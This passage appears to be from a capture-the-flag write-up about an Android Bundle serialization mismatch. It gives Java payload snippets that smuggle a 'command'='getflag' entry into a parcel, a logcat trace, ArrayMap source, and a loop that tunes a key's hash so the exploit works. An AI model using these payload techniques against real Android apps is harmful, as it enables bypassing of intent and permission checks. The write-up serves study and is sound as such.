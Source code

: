 This is the payload2:
```java 
a.writeString("\7\0command\0\0\0\7\0getflag");
a.writeInt(0);//fake_type
a.writeString("");//fake_value
```


For validating my suppose, I use payload3:
``` java
a.writeString("\7\0command\0\0\0\7\0getflag\0\0");
a.writeInt(0);//fake_type
a.writeString("1");//fake_value
```
The bundle created by this payload should be the same as the bundle created by payload1 except `length`.
Yes, it is.
But `Receiver3` refuse the bundle and raise a exception.
I check it and find the order changed:
`'\7\0command...getflag\0\0'='1', Message, 'command'='gotflag'`
It means that the payload is correct but it covered `'command'='gotflag'`.

And there is a warning in logcat:
```
>>W/ArrayMap: New hash -1841832101 is before end of array hash -1212575282 at index 1 key ��command��������getflag����
```

So the question is Bundle use Arraymap, whose order is decided by hash of the key.
We change the key, the hash is changed.
It needs to be lower than the hash of key of Message.

Here is the source:

```java
    public void append(K key, V value) {
        int index = mSize;
        final int hash = key == null ? 0
                : (mIdentityHashCode ? System.identityHashCode(key) : key.hashCode());
        if (index >= mHashes.length) {
            throw new IllegalStateException("Array is full");
        }
        if (index > 0 && mHashes[index-1] > hash) {
            RuntimeException e = new RuntimeException("here");
            e.fillInStackTrace();
            Log.w(TAG, "New hash " + hash
                    + " is before end of array hash " + mHashes[index-1]
                    + " at index " + index + " key " + key, e);
            put(key, value);
            return;
        }
```

So I think the value of hash is important to pwn the vulnerability.
The value of hash of key is `-1841832101`, so we just need to find a key with lower hash.
``` java
        String key = "mismatch";
        while(key.hashCode()>=-1841832101){
            key += ".";
        }
        a.writeString(key); // key of Message object

```

[This](./gen_payload.zip) is a project of AndroidStudio which can generate the exploit payload.
